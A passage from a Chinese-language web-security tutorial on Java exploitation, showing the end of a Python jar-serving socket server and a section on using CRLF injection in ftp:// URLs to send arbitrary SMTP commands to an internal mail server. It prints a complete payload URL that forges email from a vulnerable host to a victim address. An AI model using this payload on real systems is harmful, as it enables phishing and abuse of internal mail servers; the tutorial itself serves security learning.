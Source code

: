 ```javascript
                print(30)
                self.request.sendall(contents[-1:])

            except Exception as e:
                print ("get error at:"+str(e))


if __name__ == '__main__':

    jarserver = socketserver.TCPServer((listen_host,listen_port), JarRequestHandler) 
    print ('waiting for connection...') 
    server_thread = threading.Thread(target=jarserver.serve_forever) 
    server_thread.daemon = True 
    server_thread.start() 
    server_thread.join()
```

复制

通过报错找到临时文件的路径 然后可以操作了

可以参考一道 LCTF 2018 的 ctf题

##### （7）钓鱼

如果内网有一台易受攻击的 SMTP 服务器，我们就能利用 ftp:// 协议结合 CRLF 注入向其发送任意命令，也就是可以指定其发送任意邮件给任意人

Java支持在sun.net.ftp.impl.FtpClient中的ftp URI 因此，我们可以指定用户名和密码，例如ftp://user:password@host:port/test.txt，FTP客户端将在连接中发送相应的USER命令

但是如果我们将%0D%0A (CRLF)添加到URL的user部分的任意位置，我们就可以终止USER命令并向FTP会话中注入一个新的命令，即允许我们向25端口发送任意的SMTP命令

示例代码：

```javascript
ftp://a%0D%0A
EHLO%20a%0D%0A
MAIL%20FROM%3A%3Csupport%40VULNERABLESYSTEM.com%3E%0D%0A
RCPT%20TO%3A%3Cvictim%40gmail.com%3E%0D%0A
DATA%0D%0A
From%3A%20support%40VULNERABLESYSTEM.com%0A
To%3A%20victim%40gmail.com%0A
Subject%3A%20test%0A
%0A
test!%0A
%0D%0A
.%0D%0A
QUIT%0D%0A
:a@VULNERABLESYSTEM.com:25
```

复制

当FTP客户端使用此URL连接时，以下命令将会被发送给VULNERABLESYSTEM.com上的邮件服务器：

示例代码：
